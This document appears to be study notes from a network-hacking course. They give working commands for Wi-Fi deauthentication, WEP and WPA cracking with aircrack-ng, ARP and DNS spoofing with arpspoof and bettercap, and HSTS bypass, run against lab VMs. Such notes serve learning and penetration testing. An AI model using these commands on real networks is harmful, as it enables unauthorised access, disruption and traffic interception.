 # Network Hacking

* To list all network interfaces available, we can use `ifconfig`. The MAC address can be viewed under _ether_ in _wlan0_ and the IP can be viewed under _inet_ in _eth0_.

* To change the MAC address:

```shell
ifconfig wlan0 down #disables wlan0

ifconfig wlan0 hw ether 00:11:22:33:44:55 #sets hardware address of wlan0

ifconfig wlan0 up #enables wlan0
```

* To list only wireless interfaces, we can use `iwconfig`.

* To change _wlan0_ to monitor mode:

```shell
ifconfig wlan0 down

airmon-ng check kill #optional; kills any process that disturb interface in monitor mode

iwconfig wlan0 mode monitor #changes wlan0 mode to monitor

ifconfig wlan0 up
```

---

* To sniff packets, we can use _airodump-ng_:

```shell
airodump-ng wlan0 #here, wlan0 must be in monitor mode in order to fetch details
```

* To sniff packets on particular wifi bands:

```shell
airodump-ng --band a wlan0 #captures all networks with 5 GHz band

airodump-ng --band abg wlan0 #captures 2.5 GHz and 5 GHz networks at the same time
```

* To do targeted packet sniffing:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write testfile wlan0 #captures a particular network with given bssid and channel number, then it saves data to a file called testfile
#this will also show the devices connected to network
```

* To run a deauthentication attack, which can disconnect any client from any network:

```shell
aireplay-ng --deauth 100000000 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#here, aireplay-ng is the program name, followed by the deauth attack specifications including the MAC address of target router (-a) and MAC address of target client (-c)
```

---

* WEP(Wired Equivalent Privacy) can be cracked using two tools: _airodump-ng_ and _aircrack-ng_.

* To crack into a busy WEP network:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write wep_test wlan0
#capturing data packets from WEP network and writing it into a file

aircrack-ng wep_test-01.cap
#analyze captured data, cracks the key and prints it
```

* To crack into a non-busy WEP network, we need to do a fake authentication attack:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 11 --write arpreplay wlan0

aireplay-ng --fakeauth 0 -a 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#to associate with network; uses aireplay-ng tool to run a fake authentication attack on given MAC address access point (-a) and by wireless adapter having monitor mode(-h).

aireplay-ng --arpreplay -b 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#ARP request replay; forces access point to generate new IVs

aircrack-ng arpreplay-01.cap
```

---

* To crack WPA/WPA2:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 3 --write wpa-handshake wlan0
#capture handshake (when client joins network)
#deauth attack can be done in parallel to capture handshake
aireplay-ng --deauth 4 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#After this handshake is captured and stored in file

crunch 6 8 ria258 -o trial-wordlist.txt
#wordlist created using crunch with specifics

aircrack-ng wpa-handshake-01.cap -w trial-wordlist.txt
```

---

* For devices connected on same network:

```shell
netdiscover -r 10.0.2.1/24 #search devices on same subnet as Kali

netdiscover -c 10 -r 10.0.2.1/24 -i eth0 #increases no. of packets
```

* zenmap (GUI for nmap) can be used to gather more data about devices within subnet range.

---

* ARP Spoofing using arpspoof:

```shell
arp -a #to view arp table, works on both Linux and Windows

arpspoof -i eth0 -t 10.0.2.15 10.0.2.1 #arpspoof target victim (Windows VM) through gateway

arpspoof -i eth0 -t 10.0.2.1 10.0.2.15 #arpspoof target router (gateway) through victim
#both arpspoof commands required to be run simultaneously
#result can be observed by viewing changed MAC address using 'arp -a' on victim PC

echo 1 > /proc/sys/net/ipv4/ip_forward #enable port forwarding
```

* ARP Spoofing using Bettercap:

```shell
bettercap -iface eth0 #initialize

net.probe on #net probing, gives list of connected IPs

net.show #list of connected clients
#'help' can be used to view modules

set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.15 #change parameter values

arp.spoof on #start arp spoofer

net.sniff on #sniff packets

#.cap files can be created to run custom scripts to save time
bettercap -iface eth0 -caplet spoof.cap
```

* HTTPS and HSTS can be bypasses using caplets from Bettercap, such as hstshijack.

* DNS Spoofing:

```shell
service apache2 start #start web server

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains zsecurity.org, *.zsecurity.org

dns.spoof on
#by default, it will redirect to interface address (10.0.2.4)
```

* Wireshark can be used to analyze packets sniffed using MITM attacks.
